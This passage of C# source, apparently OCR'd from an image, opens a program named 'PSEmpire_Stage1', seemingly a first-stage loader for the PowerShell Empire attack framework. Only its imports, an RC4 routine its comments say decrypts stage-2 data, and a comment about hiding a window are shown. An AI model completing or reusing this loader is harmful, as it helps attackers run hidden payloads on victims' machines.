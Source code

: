 ``` 
using System;
using System.Collections.Generic;
using System.Linq;
using System.Management.Automation;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
 
namespace PSEmpire_Stage1
{
    class Program
    {
        // RC4 Class to decrypt the stage 2 data
        // Created by Jeong ChangWook. Source https://gist.github.com/hoiogi/89cf2e9aa99ffc3640a4
        public class RC4
        {
            public static byte[] Encrypt(byte[] pwd, byte[] data)
            {
                int a, i, j, k, tmp;
                int[] key, box;
                byte[] cipher;
 
                key = new int[256];
                box = new int[256];
                cipher = new byte[data.Length];
 
                for (i = 0; i < 256; i++)
                {
                    key[i] = pwd[i % pwd.Length];
                    box[i] = i;
                }
                for (j = i = 0; i < 256; i++)
                {
                    j = (j + box[i] + key[i]) % 256;
                    tmp = box[i];
                    box[i] = box[j];
                    box[j] = tmp;
                }
                for (a = j = i = 0; i < data.Length; i++)
                {
                    a++;
                    a %= 256;
                    j += box[a];
                    j %= 256;
                    tmp = box[a];
                    box[a] = box[j];
                    box[j] = tmp;
                    k = box[((box[a] + box[j]) % 256)];
                    cipher[i] = (byte)(data[i] ^ k);
                }
                return cipher;
            }
 
            public static byte[] Decrypt(byte[] pwd, byte[] data)
            {
                return Encrypt(pwd, data);
            }
 
        }
 
        // Hide Windows function by our friends from StackOverFlow
```